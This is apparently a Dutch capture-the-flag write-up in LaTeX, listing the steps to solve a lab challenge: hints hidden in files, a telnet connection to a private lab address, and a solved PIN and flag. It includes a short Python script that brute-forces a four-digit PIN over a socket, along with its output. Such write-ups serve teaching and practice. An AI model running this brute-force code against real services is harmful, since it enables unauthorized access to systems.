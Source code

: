\begin{enumerate}
\begin{enumerate}
\begin{enumerate}
  		\item 192.168.255.134 staat hier geschreven
  		\end{enumerate}
  	\item mp3:
  		\begin{enumerate}
  		\item Open gaWeg.mp3 met een hex-editor (vb: Bless Hex Editor)
  		\item Scroll volledig naar beneden
  		\item Port 8765 staat hier geschreven
  		\end{enumerate}
  	\end{enumerate}
  \item Hints samennemen: telnet 192.168.255.134 8765
  \item Open terminal en telnet 192.168.255.134 8765
  \item Brute-forcen van de pincode van 4 cijfers
  \item Oplossing: 7583
  \item Oplossing op de site: azernipcmkjsdizaer75348nopve
\end{enumerate}

\begin{lstlisting}
#!/usr/bin/env python
import socket
import sys
import re 

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
server_address = ('192.168.255.134', 8765)

s.connect(server_address)

data = s.recv(250)
code = ""

try:
	for i in range(10000):
		if(re.search("\nPassword correct!", data)):
			break
		else:
                        code = "%04d" % i
                        s.sendall(code + "\n")
			#data = ""
                        data = s.recv(250)

finally:
	print "Code: ", code

s.close()

Output:
	Code: 7583
\end{lstlisting}